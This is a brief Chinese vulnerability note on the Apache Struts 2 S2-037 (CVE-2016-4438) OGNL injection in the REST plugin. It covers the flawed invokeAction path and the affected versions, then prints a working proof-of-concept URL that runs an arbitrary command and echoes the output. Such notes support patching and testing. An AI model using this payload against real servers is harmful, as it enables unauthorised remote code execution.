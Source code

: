 # （CVE-2016-4438）s2-037

## 一、漏洞简介

和S2-033一样也是关于rest插件导致method变量被篡改造成的远程代码执行漏洞，这个漏洞和之前S2-033是一个地方，都是在DefaultActionInvocation.java的invokeAction方法中没有对于methodName参数内容进行校验，便直接丢到了getValue方法里面，从而造成Ongl表达式的注入。

## 二、漏洞影响

Struts 2.3.20 - Struts Struts 2.3.28（2.3.20.3和2.3.24.3除外）

## 三、复现过程

### poc

光有回显

```
/orders/4/%28%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)%3f(%23wr%3d%23context%5b%23parameters.obj%5b0%5d%5d.getWriter(),%23rs%3d@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%23parameters.command%5B0%5D).getInputStream()),%23wr.println(%23rs),%23wr.flush(),%23wr.close()):xx.toString.json?&obj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=7556&command=whoami

```

